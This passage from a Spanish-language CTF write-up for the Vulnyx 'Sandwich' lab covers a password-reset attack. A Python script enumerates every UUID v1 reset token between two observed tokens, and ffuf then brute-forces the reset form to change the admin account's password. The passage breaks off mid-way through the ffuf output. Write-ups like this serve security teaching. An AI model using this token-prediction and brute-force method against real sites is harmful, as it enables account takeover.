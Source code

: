 In this URL, there is a form that, via POST, sends the token and the proposed password. If the token is valid, it changes the user's password; if the token is invalid, the message `Invalid token.` appears.

We create a Python script to generate the possible UUID v1 between the two received by our users.

These would be all the possible UUIDs V1 within the ranges. It is important to make the 3 password reset requests as quickly as possible to have a small dictionary. If the requests take too long, the dictionary can occupy GB. 📚

```python
#!/usr/bin/env python3
def generar_uuids_por_lotes(start_hex, end_hex, batch_size=100_000, output_file="uuids.txt"):
    time_mid = "09ca"
    time_hi_and_version = "11f0"
    clock_seq = "8069"
    node = "080027b218c8"

    start = int(start_hex, 16)
    end = int(end_hex, 16)

    with open(output_file, "w") as f:
        for batch_start in range(start, end + 1, batch_size):
            batch_end = min(batch_start + batch_size, end + 1)
            for time_low in range(batch_start, batch_end):
                time_low_hex = f"{time_low:08x}"
                uuid_str = f"{time_low_hex}-{time_mid}-{time_hi_and_version}-{clock_seq}-{node}"
                f.write(uuid_str + "\n")
            print(f"Lote {batch_start}-{batch_end - 1} guardado.")

# Llamada a la función
generar_uuids_por_lotes("2299c1c6", "229e2ffe")
```

We create the dictionary and use FUZZ to try to change the password of the user `admin@sandwich.nyx` to `lenam`.

```bash
$ python3 ./uuids.py
Lote 580501958-580601957 guardado.
Lote 580601958-580701957 guardado.
Lote 580701958-580792318 guardado.
$ ls -lh uuids.txt 
-rw-rw-r-- 1 kali kali 11M mar 25 23:53 uuids.txt
$ ffuf -u "http://sandwich.nyx/resetpassword.php" -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "token=FUZZ&new_password=lenam&confirm_password=lenam" -w uuids.txt -fs 420

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://sandwich.nyx/resetpassword.php
 :: Wordlist         : FUZZ: /home/kali/CTFs/Vulnyx/Sandwich/uuids.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : token=FUZZ&new_password=lenam&confirm_password=lenam
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
```